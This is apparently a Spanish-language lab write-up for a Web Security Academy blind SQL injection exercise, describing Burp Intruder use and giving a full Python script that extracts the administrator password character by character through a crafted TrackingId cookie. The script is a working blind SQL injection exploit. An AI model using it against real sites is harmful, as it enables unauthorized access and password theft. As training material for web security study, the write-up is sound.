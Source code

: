 En esta última parte completamos la explotación de la inyección SQL ciega mediante la extracción carácter a carácter del campo ‘**password**‘.

Utilizamos Burp Intruder para automatizar el proceso, iterando sobre posiciones y posibles valores hasta reconstruir por completo la contraseña. Aprendes a usar funciones como ‘**SUBSTRING**‘ y a reconocer las respuestas válidas para cada intento.

Una vez extraída la contraseña, accedemos con ella como administrador para completar el laboratorio.

![Pasted image 20250702183649.png](imagenes/Pasted image 20250702183649.png)
![Pasted image 20250702184020.png](imagenes/Pasted image 20250702184020.png)
codigo llamado sqli.py
#!/usr/bin/env python3
from pwn import *
from termcolor import colored 
import requests 
import sys
import signal
import string
import time

def def_handler(sig, frame):
    print(colored(f"\n[!] Saliendo...\n", 'red'))
    p1.failure("Ataque de fuerza bruta detenido")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits 

p1 = log.progress("SQLI")

def makeSQLI():

    p1.status("Iniciando ataque de fuerza bruta")
    time.sleep(2)

    password = ""

    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters: 
            cookies = {
                'TrackingId': f"@tYdW3Ti@pJdmnVo' and (select substring(password,{position},1) from users where username='administrator')='{character}' -- ",
                'session': "xkwHU4bggBmEx0ijIEHAYx0fgb60eemG"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0afd00540433ac10815c1df5003a00c5.web-security-academy.net", cookies=cookies)

            if "Welcome back" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLI()

Resultado
![Pasted image 20250702190437.png](imagenes/Pasted image 20250702190437.png)
![Pasted image 20250702190536.png](imagenes/Pasted image 20250702190536.png)
